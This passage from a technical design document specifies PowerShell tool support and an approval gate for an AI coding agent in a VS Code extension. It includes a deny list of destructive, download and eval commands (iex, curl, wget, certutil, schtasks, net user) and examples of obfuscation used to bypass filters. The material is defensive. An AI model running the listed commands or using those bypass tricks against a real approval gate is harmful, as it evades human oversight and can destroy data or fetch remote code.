> **Decision:** adopt **option (b) allowlist-of-safe** for `powershell`. The gate auto-approves a powershell call ONLY when the normalized command (i) is statically understandable, (ii) does NOT match `DESTRUCTIVE_PS_PATTERNS`, and (iii) DOES match `READONLY_PS_PATTERNS`. Everything else — empty command, unrecognized cmdlet, encoded/obfuscated/dynamic-eval command — **pends** (fail-secure, deny-by-default). `DESTRUCTIVE_PS_PATTERNS` is retained as a defense-in-depth fast-path (it still forces a pend first, mode-independent) and for precise audit logging of *which* destructive category matched (SEC-05), but the system no longer **relies** on denylist completeness for correctness: the positive allowlist is the authority for auto-approval.
>
> **Rationale over option (a):** option (a) (keep denylist + reword NFR §8 to "best-effort") would require the TDD to assert a weaker guarantee than the FSD/BRD intent and leave a standing fail-open residual. The security recommendation and the FSD UC-003 postcondition both favor the stronger, honest posture. The TDD therefore does NOT assert any guarantee the design cannot provide — with the allowlist, "all destructive (indeed, all non-safe) PowerShell commands require approval" is a property the design actually enforces.
>
> **TC-404 impact (must resolve):** the previously-pinned FSD TC-404 ("empty command → auto-approve") is **incompatible** with fail-secure deny-by-default and MUST flip to "empty command → pend". See §8.4. This is a semantics change in a QA-pinned test; BA must update FSD TC-404 and QA must update the test fixture (non-blocking for this TDD — recorded as a cross-document action in §15.2 OQ-9).
>
> **Residual (reduced, SEC-01/03):** the remaining residual is a **false-negative on the SAFE allowlist** — a genuinely-safe command not listed in `READONLY_PS_PATTERNS` would pend unnecessarily (a usability cost, not a security hole). This is the correct direction for a security control (over-pend, never over-approve). The destructive catalog (§7.3) and normalization still matter for (a) immediate pend of obvious destructive commands and (b) audit-log attribution.

### 3.3 Function: `classifyTool`

**Implements:** UC-003, BR-12

| Attribute | Value |
|-----------|-------|
| File | `extension/src/chat/engine/StreamProtocolAdapter.ts` |
| Signature | `classifyTool(name: string): 'shell' \| 'file' \| 'mcp' \| 'search' \| 'browser'` |

**Updated Mapping:**

```typescript
private classifyTool(name: string): 'shell' | 'file' | 'mcp' | 'search' | 'browser' {
  if (name.includes('shell') || name.includes('terminal') || name === 'powershell' || name === 'bash') return 'shell';
  if (name.includes('file') || name.includes('write') || name.includes('delete')) return 'file';
  if (name.includes('search') || name.includes('list_directory') || name.includes('grep')) return 'search';
  if (name.includes('browser') || name.includes('fetch')) return 'browser';
  return 'mcp';
}
```

### 3.4 Function: `buildFailureSteerCorrection`

**Implements:** UC-003, BR-13

| Attribute | Value |
|-----------|-------|
| File | `extension/src/pi-workflow/turn-budget-guard.ts` |
| Signature | `buildFailureSteerCorrection(toolName: string, repeatCount: number): string` |

**Updated Logic:**

```typescript
export function buildFailureSteerCorrection(toolName: string, repeatCount: number): string {
  const isPowerShell = toolName === 'powershell';
  const isBash = toolName === 'bash';

  if (isPowerShell) {
    return `Tool 'powershell' failed ${repeatCount} times with the same error — STOP retrying it. ` +
      `PowerShell: use Get-ChildItem (ls), Get-Content (cat), Test-Path. ` +
      `Windows paths work as-is (c:\\... or c:/...). ` +
      `For file exploration prefer the ls/read/grep/find tools over powershell.`;
  }

  if (isBash) {
    return `Tool 'bash' failed ${repeatCount} times with the same error — STOP retrying it. ` +
      `If it is bash: the shell is POSIX Git Bash on Windows — use ls (never cmd syntax like dir /b) ` +
      `and forward-slash paths (c:/projects/...); backslashes are escape characters. ` +
      `For file exploration prefer the ls/read/grep/find tools over bash.`;
  }

  // Generic fallback
  return `Tool '${toolName}' failed ${repeatCount} times with the same error — STOP retrying it. ` +
    `Read the error text and change approach.`;
}
```

### 3.5 Function: `buildWorkspaceSystemPrompt`

**Implements:** UC-002, BR-08

| Attribute | Value |
|-----------|-------|
| File | `extension/src/pi-workflow/pi-coding-tools.ts` |
| Signature | `buildWorkspaceSystemPrompt(workspaceRoot: string): string` |

**Updated Logic:**

```typescript
export function buildWorkspaceSystemPrompt(workspaceRoot: string): string {
  const normalized = (workspaceRoot || '').replace(/\\/g, '/');
  const isWin = process.platform === 'win32';

  const sharedGuidance = [
    `Workspace root: ${normalized || '(unknown)'}`,
    `You are running inside the SDLC Agents VS Code extension chat.`,
    `Always resolve relative file paths against the workspace root above.`,
    `Work autonomously in one go: explore with your file tools (read/grep/find/ls) and finish the task instead of narrating plans.`,
    `Ask the user a question ONLY when blocked (missing credentials, ambiguous destructive action, genuinely unclear scope).`,
    `Prefer read/grep/find/ls tools over the shell for exploring files.`,
    `ALWAYS build absolute paths from the exact Workspace root above — never guess the drive letter.`,
    `If a path does not exist, stop and re-list from the workspace root — never guess deeper nested paths.`,
    `NEVER paste shell commands for the user to run — always EXECUTE them yourself with your tools.`,
  ];

  if (isWin) {
    return [
      ...sharedGuidance,
      `The shell tool is Windows PowerShell (pwsh).`,
      `Use PowerShell cmdlets (Get-ChildItem/Get-Content/Test-Path) or their aliases (ls/cat/dir all work).`,
      `Windows paths work as-is (c:\\... or c:/...) — no translation needed.`,
    ].join('\n');
  }

  return [
    ...sharedGuidance,
    `The shell tool is Bash (POSIX Git Bash).`,
    `Use forward slashes: ls not dir /b.`,
    `Paths: /c/... instead of c:\\...`,
  ].join('\n');
}
```

### 3.6 Function: `getSessionToolLoadout`

**Implements:** UC-003, BR-14

| Attribute | Value |
|-----------|-------|
| File | `extension/src/pi-workflow/pi-agent-session-host.ts` |
| Signature | `getSessionToolLoadout(workspaceRoot: string): ToolDefinition[]` |

**Updated Logic:**

```typescript
function getSessionToolLoadout(workspaceRoot: string): ToolDefinition[] {
  const isWin = process.platform === 'win32';
  const allTools = createAllToolDefinitions(workspaceRoot);

  if (isWin) {
    // Include powershell, exclude bash on Windows to avoid model confusion
    return allTools.filter(t => t.name !== 'bash');
  }

  // Non-Windows: include bash, exclude powershell
  return allTools.filter(t => t.name !== 'powershell');
}
```

---

## 4. Database Design

> **Note:** This upgrade does NOT introduce any database schema changes. All modifications are in-memory tool classification and session configuration. No DDL, no migrations, no new tables.

### 4.1 Data Entities (In-Memory Only)

#### Entity: ToolConfiguration

| Attribute | Type | Required | Description |
|-----------|------|----------|-------------|
| toolName | string | Yes | `"powershell"` or `"bash"` |
| platform | string | Yes | `"win32"` or non-win32 |
| isActive | boolean | Yes | Whether this tool is active for current platform |

#### Entity: SessionLoadout

| Attribute | Type | Required | Description |
|-----------|------|----------|-------------|
| sessionId | string | Yes | UUID v4 |
| tools | ToolDefinition[] | Yes | Available tools for this session |
| platform | string | Yes | Platform this loadout targets |

---

## 5. Class / Module Design

### 5.1 Package Structure

```
extension/src/
├── pi-workflow/
│   ├── pi-coding-tools.ts          # MODIFY: OS-aware shell tool selection
│   ├── pi-workflow-gate.ts         # MODIFY: powershell allowlist-of-safe branch (destructive/unparseable pend first, safe-allowlist auto-approve, else pend); NOT in READ_ONLY_TOOLS; bash unchanged
│   ├── turn-budget-guard.ts        # MODIFY: Shell-aware failure correction
│   ├── pi-agent-session-host.ts    # MODIFY: Session tool loadout
│   ├── pi-provider.ts              # VERIFY: Agent types compatibility
│   ├── pi-event-mapper.ts          # VERIFY: Event type changes
│   ├── pi-extensions.config.ts     # MODIFY: Version bump to 0.99.1
│   └── __tests__/
│       ├── pi-coding-tools.test.ts         # MODIFY: Add powershell tests
│       ├── pi-workflow-gate.test.ts         # MODIFY: Add powershell classification tests
│       ├── turn-budget-guard.test.ts        # MODIFY: Add shell-aware correction tests
│       ├── pi-agent-session-host.test.ts    # MODIFY: Add loadout tests
│       └── resolve-git-bash.test.ts        # DELETE: Function removed
├── chat/engine/
│   ├── StreamProtocolAdapter.ts    # MODIFY: classifyTool powershell → shell
│   └── ToolApprovalClassifier.ts   # MODIFY: Export expanded DESTRUCTIVE_PS_PATTERNS (BR-11, SEC-01), READONLY_PS_PATTERNS (SEC-02), normalizePsCommand (SEC-03); name-based sets unchanged
└── package.json                    # MODIFY: Bump @earendil-works/* to 0.99.1
```

### 5.2 Key Interfaces

```typescript
// extension/src/pi-workflow/pi-coding-tools.ts

/**
 * OS-aware shell tool selection.
 * On win32: returns tool named "powershell"
 * On non-win32: returns tool named "bash"
 */
export async function createWorkspaceTools(workspaceRoot: string): Promise<AgentTool[]>;

/**
 * Safely create PowerShell tool with fallback to bash on failure.
 * Handles pwsh.exe not found → Windows PowerShell fallback → bash fallback.
 */
function createPowerShellToolSafe(workspaceRoot: string): Promise<AgentTool | null>;

/**
 * OS-aware system prompt builder.
 * Windows: PowerShell dialect guidance
 * Non-Windows: Bash dialect guidance
 */
export function buildWorkspaceSystemPrompt(workspaceRoot: string): string;

// extension/src/pi-workflow/pi-workflow-gate.ts

// Reconciled v1.1: 'bash' deliberately NOT in READ_ONLY_TOOLS (BRD §1.2 —
// pre-upgrade behavior preserved); 'powershell' added (FSD BR-10).
const READ_ONLY_TOOLS: ReadonlySet<string>; // {read, grep, find, ls, get_workspace_info, powershell}
// NOTE: no local DANGEROUS_TOOLS set — dangerous definitions are canonical in
// ToolApprovalClassifier: DANGEROUS_TOOL_PATTERNS (name-set, UNCHANGED) +
// DESTRUCTIVE_PS_PATTERNS (NEW, command-content regex for powershell — FSD
// BR-11), checked FIRST in the gate handler decision order (§3.2).

// Reconciled handler contract (actual architecture — approval-adapter.ts):
interface ToolApprovalGateHandler {
  requestApproval(request: {
    toolUseId: string;
    toolName: string;
    input: Record<string, unknown>; // shell command string at input.command
    agentId?: string;
    ticketKey?: string;
  }): Promise<{ approved: boolean; reason?: string; modifiedInput?: Record<string, unknown> }>;
}

// extension/src/chat/engine/ToolApprovalClassifier.ts

// UNCHANGED (name-based sets — no 'bash'/'powershell' entries; see §3.2):
const DANGEROUS_TOOL_PATTERNS: ReadonlySet<string>; // write_file, fs_write, git_commit, ...
const SAFE_TOOL_PATTERNS: ReadonlySet<string>;
export function requiresApproval(toolName: string): boolean; // unknown-safe → false

// NEW (v1.1 — FSD BR-11): canonical destructive-PowerShell command-content patterns
export const DESTRUCTIVE_PS_PATTERNS: ReadonlyArray<RegExp>;

// NEW (v1.2 — SEC-02): canonical SAFE allowlist — the AUTHORITY for powershell
// auto-approval. A powershell command auto-approves ONLY on a positive match
// here (and only after passing DESTRUCTIVE_PS_PATTERNS + normalization).
export const READONLY_PS_PATTERNS: ReadonlyArray<RegExp>;

// NEW (v1.2 — SEC-03): normalize a raw command before matching.
// Decodes -EncodedCommand/-enc/-e, strips backtick/caret escapes, collapses
// whitespace, lower-cases. `decoded=false` when the command cannot be
// statically understood (encoded/obfuscated/dynamic eval) → caller must pend.
export interface NormalizedCommand { text: string; decoded: boolean; }
export function normalizePsCommand(raw: string): NormalizedCommand;

// extension/src/chat/engine/StreamProtocolAdapter.ts

type ToolType = 'shell' | 'file' | 'mcp' | 'search' | 'browser';

// extension/src/pi-workflow/turn-budget-guard.ts

export function buildFailureSteerCorrection(toolName: string, repeatCount: number): string;
```

### 5.3 Design Patterns

| Pattern | Where Used | Rationale |
|---------|-----------|-----------|
| **Strategy** | `createWorkspaceTools` — OS-aware shell selection | Encapsulates platform-specific tool creation behind single interface |
| **Factory** | `createPowerShellToolSafe` — safe creation with fallback | Hides complexity of pwsh.exe resolution and fallback chain |
| **Fail-Secure** | `createToolApprovalGateHandler` — destructive-PS command-content check first, mode-independent; unwired `getMode()` defaults to Supervised | Security: destructive commands never auto-approve (BR-11) |
| **Adapter** | `StreamProtocolAdapter.classifyTool` — tool name → UI category | Decouples tool names from UI rendering |
| **Circuit Breaker** | `createPowerShellToolSafe` — fallback to bash on failure | Prevents cascade failure when PowerShell unavailable |

### 5.4 Class Diagram



*[Edit in draw.io](diagrams/class-diagram.drawio)*

> **v1.2 diagram note (SEC-01/02 — non-blocking):** The class diagram does not need to be regenerated for the structural change in v1.2. For accuracy, `ToolApprovalClassifier` now additionally exposes `READONLY_PS_PATTERNS: ReadonlyArray<RegExp>` (the safe-allowlist authority for powershell auto-approval, SEC-02) and `normalizePsCommand(raw): NormalizedCommand` (the decode/strip/collapse/lower-case step, SEC-03), alongside the existing `DESTRUCTIVE_PS_PATTERNS`. `PiWorkflowGate.READ_ONLY_TOOLS` no longer contains `powershell`. These are additive to the depicted `ToolApprovalClassifier`/`PiWorkflowGate` relationship (`PiWorkflowGate → ToolApprovalClassifier`); the diagram's component relationships are unchanged, so regeneration is optional and deferred.

---

## 6. Integration Design

### 6.1 External System: pi-coding-agent SDK 0.99.1

| Attribute | Value |
|-----------|-------|
| Protocol | TypeScript API (in-process) |
| Direction | Outbound (extension → SDK) |
| Data Format | TypeScript types / `.d.ts` |
| Frequency | On-demand (tool creation at workspace init) |
| Timeout | N/A (synchronous) |
| Retry Policy | 1 retry on failure, then fallback to bash |
| Circuit Breaker | Open after 3 consecutive failures → fallback to bash |

**Data Mapping:**

| Our Data | SDK Data | Direction | Business Rule |
|----------|----------|-----------|---------------|
| `workspaceRoot` (string) | `cwd` parameter | Send to SDK | Must be absolute path |
| `process.platform` | — | Internal | `"win32"` → PowerShell; else → Bash |
| Tool call result | `PowerShellToolCallEvent` | Receive from SDK | Handle success/failure per event |

**Sequence Diagram — PowerShell Tool Creation:**



*[Edit in draw.io](diagrams/sequence-ps-tool-creation.drawio)*

### 6.2 Integration: Pi Agent Session Host

| Attribute | Value |
|-----------|-------|
| Protocol | TypeScript API (in-process) |
| Direction | Outbound (extension → SDK) |
| Data Format | `CreateAgentSessionOptions` / `CreateAgentSessionResult` |
| Frequency | On session init |
| Timeout | 30s (ensure timeout) |
| Retry Policy | 1 retry, then fallback to legacy PiWorkflowEngine |
| Circuit Breaker | N/A (cached per workspaceRoot) |

**Data Mapping:**

| Our Data | SDK Data | Direction | Business Rule |
|----------|----------|-----------|---------------|
| `customTools` | ToolDefinition[] | Send to SDK | Filtered per platform (no dual shell) |
| `cwd` | workspaceRoot | Send to SDK | Absolute path |
| `modelRuntime` | ModelRuntime | Send to SDK | From `ModelRuntime.create` |
| `tools` | allowlist | Send to SDK | `['read', 'write', 'edit', 'powershell', 'grep', 'find', 'ls']` on win32 |

### 6.3 Retry / Circuit Breaker

| Integration | Retry Policy | Circuit Breaker | Dead Letter |
|-------------|-------------|-----------------|-------------|
| `createPowerShellTool` | 1 retry on failure | Open after 3 consecutive failures | Fallback to `createBashTool` |
| `npm install` | N/A (build-time) | N/A | Log error; abort build |
| `tsc --noEmit` | N/A (build-time) | N/A | Report type errors; block deploy |
| `createAgentSession` | 1 retry | N/A | Fallback to legacy PiWorkflowEngine |

---

## 7. Security Design

### 7.1 Authentication

No authentication changes. The extension uses VS Code's built-in authentication and the existing JWT-based backend authentication (unchanged).

### 7.2 Authorization

> **Reconciled v1.1 / updated v1.2 (SEC-02):** matrix is mode-scoped and command-aware. `bash` rows corrected — `bash` is NOT in `READ_ONLY_TOOLS` and NOT name-based dangerous (pre-upgrade behavior preserved per BRD §1.2). `powershell` is gated by **command content under an allowlist-of-safe posture**: destructive (`DESTRUCTIVE_PS_PATTERNS`) and unparseable commands pend FIRST (mode-independent, BR-11); only `READONLY_PS_PATTERNS` matches auto-approve; everything else (empty/unrecognized) pends (fail-secure deny-by-default).

| Mode | Tool | Command | Permission | Gate / Mechanism |
|------|------|---------|------------|------------------|
| Supervised (default) | `powershell` | Safe-allowlist (e.g., `Get-ChildItem`) | Auto-approve | Not destructive, `decoded`, matches `READONLY_PS_PATTERNS` (§3.2 Step 1b, BR-10) |
| Supervised (default) | `powershell` | Destructive (e.g., `Remove-Item -Recurse`) | Require approval (pend) | `DESTRUCTIVE_PS_PATTERNS` match — checked FIRST, mode-independent (BR-11, fail-secure) |
| Supervised (default) | `powershell` | Empty / unrecognized / encoded / obfuscated | Require approval (pend) | Deny-by-default — no safe match or `decoded===false` (§3.2 Step 1/1c, SEC-02/03) |
| Supervised (default) | `bash` | Any command | Pend — ask user | Default supervised path — `bash` NOT in `READ_ONLY_TOOLS` (pre-upgrade behavior, BRD §1.2) |
| Supervised (default) | `bash` | Destructive command | Pend — ask user | `DESTRUCTIVE_BASH_PATTERNS` content guard matches first (SA4E-335) — same observable outcome as the default supervised path |
| Autopilot | `powershell` | Safe-allowlist | Auto-approve | `READONLY_PS_PATTERNS` positive match (§3.2 Step 1b, BR-10) |
| Autopilot | `powershell` | Destructive | Require approval | `DESTRUCTIVE_PS_PATTERNS` — always gated even under Autopilot (BR-11, fail-secure) |
| Autopilot | `powershell` | Empty / unrecognized / encoded / obfuscated | Require approval | Deny-by-default — mode-independent (§3.2 Step 1/1c, SEC-02/03) |
| Autopilot | `bash` | Non-destructive | Auto-approve | `requiresApproval('bash') === false` (unknown-safe, unchanged pre-upgrade) |
| Autopilot | `bash` | Destructive command | Require approval (pend) — **mode-independent** (SEC-06 CLOSED) | `DESTRUCTIVE_BASH_PATTERNS` content guard runs BEFORE the remembered-pattern and Autopilot branches (SA4E-335 incident follow-up, §3.2 Step 1a-bash) |
| Any | Unknown tool | — | Pend (Supervised) / Auto-approve (Autopilot) | Unknown-safe classifier (deliberate MCP design, unchanged) |

### 7.3 Tool Classification Security

> **Reconciled v1.1:** name-based sets in `ToolApprovalClassifier.ts` are UNCHANGED (`DANGEROUS_TOOL_PATTERNS` contains `write_file`, `fs_write`, `git_commit`, … — no `bash`, no `powershell` name entries). BR-11 ("DANGEROUS_TOOLS must include powershell for destructive commands") is implemented via `DESTRUCTIVE_PS_PATTERNS` — a NEW command-content regex export in `ToolApprovalClassifier.ts` (canonical home per FSD §3.3.1), checked FIRST in the gate handler decision order (§3.2 Step 1, mode-independent). A `powershell` name entry is deliberately NOT added — see §3.2 Classification Sets rationale.

> **SEC-01 (High) — the pattern catalog is a DESIGN REQUIREMENT, not an implementation detail.** The v1.0/v1.1 7-regex list missed entire destructive categories and was trivially bypassable. v1.2 promotes the destructive catalog below to a **binding design requirement**: DEV MUST implement coverage for every category listed, and QA MUST test each category (destructive-coverage matrix) and each bypass vector (bypass-resistance matrix, SEC-03). With the SEC-02 allowlist-of-safe posture (§3.2), the denylist is a defense-in-depth fast-path + audit-attribution mechanism, but completeness of this catalog remains a requirement so obvious destructive commands pend immediately and are logged with the matched category (SEC-05).

#### 7.3.1 Normalization step (SEC-03 — MANDATORY, runs BEFORE any matching)

`normalizePsCommand(raw)` MUST be applied to `req.input.command` before matching against either pattern list. It:

1. **Decode** `-EncodedCommand` / `-enc` / `-e` / `-ec` base64 payloads into their plaintext command (recursively if the decoded payload itself invokes an encoded command).
2. **Strip** escape obfuscation: backticks (`` ` ``) and carets (`^`), and resolve trivially-concatenated string literals where statically possible (e.g. `('Remov'+'e-Item')`).
3. **Collapse** all runs of whitespace to a single space; trim.
4. **Lower-case** the whole string.
5. Return `{ text, decoded }`. **`decoded = false`** when the command cannot be statically understood — encoded payload that does not base64-decode, dynamic eval (`iex`/`Invoke-Expression` of a runtime-constructed string), or otherwise opaque input.

**Fail-secure rule (SEC-02/03):** any command with `decoded === false`, or an empty command, is treated as **NOT safe → pend** (handled by §3.2 Step 1 / Step 1c). The gate never auto-approves a command it could not statically understand.

#### 7.3.2 Destructive PowerShell catalog (minimum coverage — DEV implements, QA tests each category)

```typescript
// extension/src/chat/engine/ToolApprovalClassifier.ts — DESTRUCTIVE_PS_PATTERNS (FSD BR-11; SEC-01 expanded)
// Matched against the NORMALIZED command (§7.3.1). Minimum categories below;
// DEV may consolidate regexes but MUST cover every listed verb/alias.
export const DESTRUCTIVE_PS_PATTERNS: ReadonlyArray<RegExp> = [
  // --- File/dir delete ---
  /\bremove-item\b/i, /\brm\b/i, /\bdel\b/i, /\berase\b/i, /\brd\b/i, /\brmdir\b/i,
  /\bremove-itemproperty\b/i, /\bclear-content\b/i, /\bclear-item\b/i,
  // --- File overwrite ---
  /\bset-content\b/i, /\bout-file\b/i, /\bnew-item\b.*-force\b/i,
  />>?/,                               // redirection > and >>
  /\bcopy-item\b.*-force\b/i, /\bmove-item\b/i, /\brename-item\b/i,
  // --- Process / service ---
  /\bstop-process\b/i, /\bkill\b/i, /\btaskkill\b/i, /\bstop-service\b/i,
  /\bset-service\b/i, /\brestart-service\b/i, /\brestart-computer\b/i, /\bshutdown\b/i,
  // --- Format / disk ---
  /\bformat-volume\b/i, /\bformat-\w+\b/i, /\bclear-disk\b/i, /\binitialize-disk\b/i, /\bdiskpart\b/i,
  // --- Policy / security ---
  /\bset-executionpolicy\b/i, /\bset-itemproperty\b/i, /\breg\s+delete\b/i,
  /\breg\s+add\b/i, /\bset-acl\b/i,
  // --- Accounts ---
  /\bnet\s+user\b/i, /\bnet\s+localgroup\b/i, /\bnew-localuser\b/i,
  /\bremove-localuser\b/i, /\badd-localgroupmember\b/i,
  // --- Scheduled tasks / persistence ---
  /\bschtasks\b/i, /\bregister-scheduledtask\b/i, /\bnew-service\b/i,
  // --- Code execution / obfuscation (MUST pend) ---
  /\binvoke-expression\b/i, /\biex\b/i, /-encodedcommand\b/i, /-enc\b/i, /-e\b/i,
  /&\s*[('"]/,                          // call operator & '...' / &(...)
  /\bstart-process\b/i, /\bcmd\b/i, /\binvoke-command\b/i,
  // --- Download (RCE path) ---
  /\binvoke-webrequest\b/i, /\biwr\b/i, /\binvoke-restmethod\b/i, /\birm\b/i,
  /\bcurl\b/i, /\bwget\b/i, /\bstart-bitstransfer\b/i, /\bcertutil\b.*-urlcache\b/i,
  // --- Git destructive ---
  /\bgit\s+push\b/i, /\bgit\s+commit\b/i,
  /\bgit\s+reset\b.*--hard\b/i, /\bgit\s+clean\b/i, /\bgit\s+checkout\b/i,
];
```

> **Note on the obfuscation/eval regexes:** `iex`, `Invoke-Expression`, `-EncodedCommand`, call operator `&`, `Start-Process`, `cmd`, `Invoke-Command` are classed destructive **because they defeat static analysis**, not because they are inherently harmful — a command routed through them cannot be verified safe, so it pends. This is consistent with the §7.3.1 `decoded = false → pend` rule.

#### 7.3.3 Read-only PowerShell allowlist (SEC-02 — THE auto-approval authority)

```typescript
// extension/src/chat/engine/ToolApprovalClassifier.ts — READONLY_PS_PATTERNS (SEC-02)
// This list is the AUTHORITY for powershell auto-approval (§3.2 Step 1b):
// a normalized command auto-approves ONLY if it matches here (and did NOT
// match DESTRUCTIVE_PS_PATTERNS and is `decoded`). Must match the WHOLE
// command intent (anchored), not a substring, to avoid "get-content; rm x"
// style smuggling — DEV: anchor + reject compound statements (`;`, `|`, `&&`)
// unless every segment is independently safe.
export const READONLY_PS_PATTERNS: ReadonlyArray<RegExp> = [
  /^get-childitem\b/i, /^get-content\b/i, /^test-path\b/i, /^get-item\b/i,
  /^get-itemproperty\b/i, /^get-location\b/i, /^get-process\b/i, /^get-service\b/i,
  /^select-string\b/i, /^measure-object\b/i, /^resolve-path\b/i, /^get-date\b/i,
  /^ls\b/i, /^cat\b/i, /^dir\b/i, /^pwd\b/i, /^gci\b/i, /^gc\b/i, /^type\b/i, /^where\b/i,
];
```

### 7.4 Input Validation

| Field | Validation | Sanitization |
|-------|-----------|--------------|
| `workspaceRoot` | Must be absolute path | None (used as-is) |
| `toolName` | Must be string | Lowercase comparison |
| `command` | **zod-validated request shape (SEC-08)** — see below | Normalized via `normalizePsCommand` before matching (§7.3.1); PowerShell handles execution escaping |

> **SEC-08 (Medium) — validate the approval request `input` shape; fail-secure on missing `command`.** The gate currently reads `String(req.input?.command ?? '')`. If SDK 0.99.1 names the powershell tool's input field differently (`script`, `cmd`, `args[]`), `command` is absent → the string is empty → under the OLD design that auto-approved. Under the v1.2 allowlist posture an empty/absent command already **pends** (§3.2 Step 1c), so the fail-open is closed; nonetheless DEV MUST:
> 1. Confirm the actual powershell tool input field against the 0.99.1 `.d.ts` (resolves §15.2 OQ-5).
> 2. Add a **zod schema** for the approval-request `input` of a shell tool (per code-standards serialization rule), e.g. `z.object({ command: z.string() })` with `.safeParse`.
> 3. On parse failure / missing `command` for a shell tool → **fail secure (pend)**, never treat as empty-safe. QA test: malformed/renamed input field must pend (SEC-08 test).

### 7.5 Secrets Management

No new secrets introduced. The upgrade does not change how API keys or credentials are managed. Existing `InMemoryCredentialStore` and `SecretStorage`-backed credential resolution remain unchanged.

---

## 8. Performance & Scalability

### 8.1 Performance Targets

| Operation | Target | Measurement |
|-----------|--------|-------------|
| `createPowerShellTool()` | < 500ms | Tool creation time |
| PowerShell command execution | < 2s | Typical command latency |
| `npm install` | < 120s | Full dependency install |
| `tsc --noEmit` | < 60s | TypeScript compilation |
| `createWorkspaceTools()` | < 100ms | Full tool array creation |

### 8.2 Scalability

No scalability changes. The extension runs as a single process per VS Code window. The upgrade does not introduce new concurrency patterns or shared state.

### 8.3 Reliability

| Metric | Target | Measurement |
|--------|--------|-------------|
| Tool availability | ≥ 99.9% | `createWorkspaceTools` success rate |
| PowerShell fallback rate | < 5% | Fallback to bash events / total PS tool creations |
| Session creation success | ≥ 99.5% | `ensureSessionHost` success rate |

### 8.4 Security NFR — PowerShell Approval Gating (SEC-01/02, Phase 3.7)

> This subsection reconciles the design with FSD NFR §8 following the Security Design Review. It replaces any implicit reliance on a complete denylist.

**NFR-SEC-01 (gating guarantee).** With the allowlist-of-safe posture (§3.2), the design enforces: a `powershell` command auto-approves **if and only if** it is statically understandable, does not match `DESTRUCTIVE_PS_PATTERNS`, and matches `READONLY_PS_PATTERNS`. Every other command — destructive, empty, unrecognized, encoded, obfuscated, or dynamically evaluated — **requires approval (pend) in BOTH Supervised and Autopilot modes**. This is the honest reading of FSD NFR §8 ("All destructive PowerShell commands require approval"): the design now provides at least that guarantee (in fact it pends all non-safe commands, a superset of destructive).

**NFR-SEC-02 (no over-approval).** The gate's only accepted residual is **over-pend** (a safe command not in `READONLY_PS_PATTERNS` is held for human approval — a usability cost). There is NO fail-open path for powershell: the control never auto-approves a command it has not positively recognized as safe.

**NFR-SEC-03 (ordering invariant — SEC-04).** The powershell branch MUST return explicitly in all paths and MUST NOT fall through to a generic read-only / Autopilot auto-approve. A destructive PS command MUST NOT be able to reach `{approved:true}` via any read-only path. DEV: inline comment + QA invariant unit test (`Remove-Item` never returns `{approved:true}`), independent of step reordering.

**NFR-SEC-04 (auditability — SEC-05).** Every powershell/bash approval decision MUST log the full (or hashed+length) command, the matched pattern/category (or `NO_SAFE_MATCH_PENDED`), the mode, and the decision — see §9.1. Fail-secure pends and (for bash) any auto-approve of a destructive command MUST be greppable for incident response.

**FSD TC-404 resolution (cross-document, SEC-02).** FSD TC-404 pins "empty command → auto-approve". That is incompatible with fail-secure deny-by-default. The design mandates **empty command → pend**. BA must update FSD TC-404 and QA must update the test fixture accordingly (tracked §15.2 OQ-9). This TDD treats empty-command-pends as authoritative; the FSD reword is non-blocking for implementation but required for FSD/TDD consistency.

**FSD NFR §8 wording (flag for BA — non-blocking).** FSD NFR §8 currently reads "All destructive PowerShell commands require approval". With the allowlist posture this is now *satisfiable and true*, so no reword is strictly required; however BA should align the FSD narrative to describe the **allowlist-of-safe** mechanism (auto-approve only on safe match) rather than the former denylist framing, to keep FSD and TDD descriptions consistent. SA will not edit the FSD (role boundary).

---

## 9. Monitoring & Observability

### 9.1 Logging

| Log Event | Level | Fields | Destination |
|-----------|-------|--------|-------------|
| PowerShell tool creation | INFO | `{ event: "powershell_tool_created", platform, workspaceRoot }` | debugLog |
| PowerShell fallback to bash | WARN | `{ event: "powershell_fallback", reason, platform }` | debugLog |
| `classifyTool` unknown tool | WARN | `{ event: "classify_tool_unknown", toolName }` | debugLog |
| Dependency bump | INFO | `{ event: "dependency_bump", package, from, to }` | debugLog |
| TSC error | ERROR | `{ event: "tsc_error", file, message }` | debugError |
| Tool approval decision | INFO | `{ event: "tool_approval", toolName, decision, reason, mode, matchedPattern, commandHash, commandLength }` (SEC-05) — `matchedPattern` is the destructive category id, `READONLY_<cmdlet>`, or `NO_SAFE_MATCH_PENDED`; log full command (or hash+length) for `powershell`/`bash` | debugLog |
| PowerShell fallback → bash (gate degraded) | WARN | `{ event: "powershell_fallback", reason, platform, securityPosture: "command-content-gate-disabled" }` (SEC-10) — fallback swaps a content-gated tool for a non-gated one; make greppable | debugLog |

### 9.2 Metrics

| Metric | Type | Description | Alert Threshold |
|--------|------|-------------|-----------------|
| `powershell_tool_creation_total` | Counter | Total PowerShell tool creations | N/A |
| `powershell_fallback_total` | Counter | Total fallbacks to bash | > 10/min |
| `tool_approval_decisions_total` | Counter | Approval decisions by type | N/A |
| `tsc_errors_total` | Counter | TypeScript compilation errors | > 0 |

### 9.3 Health Checks

No new health check endpoints. The extension's existing health check (backend connectivity) remains unchanged.

---

## 10. Deployment

### 10.1 Environment Configuration

| Property | DEV | SIT | UAT | PROD |
|----------|-----|-----|-----|------|
| `pi-coding-agent` version | 0.99.1 | 0.99.1 | 0.99.1 | 0.99.1 |
| Node engine | 22.x | 22.x | 22.x | 22.x |
| Extension version | 1.46.7 | 1.46.7 | 1.46.7 | 1.46.7 |

### 10.2 Feature Flags

| Flag | Default | Description |
|------|---------|-------------|
| `usePowerShellTool` | `true` | Enable native PowerShell tool on Windows |
| `fallbackToBash` | `true` | Allow fallback to bash if PowerShell fails |

### 10.3 Rollback Strategy

If 0.99.1 causes critical issues:

1. **Git rollback**: `git checkout` the dependency + code changes
2. **Reinstall**: `npm install` to restore 0.80.10
3. **Fallback**: The Git-Bash workaround (pinned scoop Git Bash + `normalizeBashCommandPaths`) remains as fallback
4. **Revert VSIX**: Install previous extension version from VS Code marketplace

### 10.4 Migration Plan

| Step | Action | Verification | Rollback |
|------|--------|--------------|----------|
| 1 | Bump `package.json` versions to 0.99.1 | `npm ls` shows single version | Revert package.json |
| 2 | Run `npm install` | Install succeeds | Delete node_modules, retry |
| 3 | Run `tsc --noEmit` | 0 errors | Fix type errors |
| 4 | Update `pi-coding-tools.ts` | `createWorkspaceTools` returns `powershell` on win32 | Revert file |
| 5 | Update `pi-workflow-gate.ts` | Safe-allowlist PS auto-approved; destructive/empty/unrecognized PS pend (both modes, SEC-02); `bash` unchanged | Revert file |
| 6 | Update `turn-budget-guard.ts` | Shell-aware correction works | Revert file |
